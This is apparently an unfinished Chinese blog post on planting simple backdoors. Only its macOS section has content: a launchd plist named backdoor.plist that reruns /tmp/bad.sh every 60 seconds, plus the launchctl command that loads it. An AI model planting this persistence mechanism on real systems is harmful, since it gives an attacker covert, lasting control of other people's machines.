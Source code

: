 ```yaml
---
layout: post
title: 各種簡易後門種法
date: 2019-06-15 00:46 +0800
---
```


## Linux

## macOS

利用 `launchctl`。先寫個簡單的 `backdoor.plist`：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">

<plist version="1.0">
  <dict>
    <key>Label</key>
      <string>com.djosix</string>
    <key>ProgramArguments</key>
      <array>
        <string>/bin/bash</string>
        <string>/tmp/bad.sh</string>
      </array>
    <key>RunAtLoad</key>
      <true/>
    <key>StartInterval</key>
      <integer>60</integer>
    <key>AbandonProcessGroup</key>
      <true/>
  </dict>
</plist>
```

載入一下：

```shell
launchctl load backdoor.plist
```

## Windows


